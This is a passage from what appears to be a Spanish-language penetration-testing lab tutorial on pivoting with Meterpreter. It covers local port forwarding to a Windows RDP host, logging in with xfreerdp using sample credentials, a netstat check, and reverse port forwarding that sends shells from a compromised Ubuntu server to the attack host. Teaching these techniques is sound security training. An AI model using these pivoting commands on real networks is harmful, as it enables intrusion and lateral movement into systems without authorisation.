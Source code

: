 ### Creating Local TCP Relay

```r
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

El comando anterior solicita a la sesión de Meterpreter que inicie un listener en el puerto local (`-l`) `3300` de nuestro host de ataque y reenvíe todos los paquetes al servidor remoto (`-r`) de Windows `172.16.5.19` en el puerto `3389` (`-p`) a través de nuestra sesión de Meterpreter. Ahora, si ejecutamos xfreerdp en nuestro localhost:3300, podremos crear una sesión de escritorio remoto.

### Connecting to Windows Target through localhost

```r
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

### Netstat Output

Podemos usar Netstat para ver información sobre la sesión que recién establecimos. Desde una perspectiva defensiva, podríamos beneficiarnos de usar Netstat si sospechamos que un host ha sido comprometido. Esto nos permite ver cualquier sesión que un host haya establecido.

```r
netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```

---

## Meterpreter Reverse Port Forwarding

Similar a los reenvíos de puertos locales, Metasploit también puede realizar `reverse port forwarding` con el siguiente comando, donde podríamos querer escuchar en un puerto específico en el servidor comprometido y reenviar todas las shells entrantes desde el servidor Ubuntu a nuestro host de ataque. Iniciaremos un listener en un nuevo puerto en nuestro host de ataque para Windows y solicitaremos al servidor Ubuntu que reenvíe todas las solicitudes recibidas en el puerto `1234` del servidor Ubuntu a nuestro listener en el puerto `8081`.

Podemos crear un reenvío de puerto inverso en nuestro shell existente del escenario anterior usando el siguiente comando. Este comando reenvía todas las conexiones en el puerto `1234` que se ejecutan en el servidor Ubuntu a nuestro host de ataque en el puerto local (`-l`) `8081`. También configuraremos nuestro listener para escuchar en el puerto 8081 para una shell de Windows.

### Reverse Port Forwarding Rules

```r
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Local TCP relay created: 10.10.14.18:8081 <-> :1234
```
